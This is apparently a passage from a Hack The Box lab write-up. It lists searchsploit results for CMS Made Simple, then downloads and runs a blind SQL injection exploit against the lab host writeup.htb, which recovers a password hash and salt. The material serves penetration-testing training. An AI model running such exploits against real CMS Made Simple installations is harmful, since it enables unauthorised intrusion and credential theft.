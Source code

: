```bash
CMS Made Simple 2.1.6 - Multiple Vulnerabilities                                                                                                                       | php/webapps/41997.txt
CMS Made Simple 2.1.6 - Remote Code Execution                                                                                                                          | php/webapps/44192.txt
CMS Made Simple 2.2.14 - Arbitrary File Upload (Authenticated)                                                                                                         | php/webapps/48779.py
CMS Made Simple 2.2.14 - Authenticated Arbitrary File Upload                                                                                                           | php/webapps/48742.txt
CMS Made Simple 2.2.14 - Persistent Cross-Site Scripting (Authenticated)                                                                                               | php/webapps/48851.txt
CMS Made Simple 2.2.15 - 'title' Cross-Site Scripting (XSS)                                                                                                            | php/webapps/49793.txt
CMS Made Simple 2.2.15 - RCE (Authenticated)                                                                                                                           | php/webapps/49345.txt
CMS Made Simple 2.2.15 - Stored Cross-Site Scripting via SVG File Upload (Authenticated)                                                                               | php/webapps/49199.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                                                                                                          | php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                                                                                                          | php/webapps/45793.py
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                                                                                                        | php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection                                                                                                                               | php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload                                                                                                       | php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File Upload                                                                                                  | php/webapps/34298.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload                                                                                         | php/webapps/46546.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

A few of the exploits are authenticated. One is an RCE, but reading the code shows it requires a fresh install. The next best option is the SQL injection.

The exploit, at `php/webapps/46635.py`, seems to do a blind injection via a time based attack. I'll clone it and run it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ searchsploit -m php/webapps/46635.py
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ python2 -m pip install termcolor
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ python2 46635.py -u http://writeup.htb/writeup/
```

It finds us a password hash and salt within a minute!

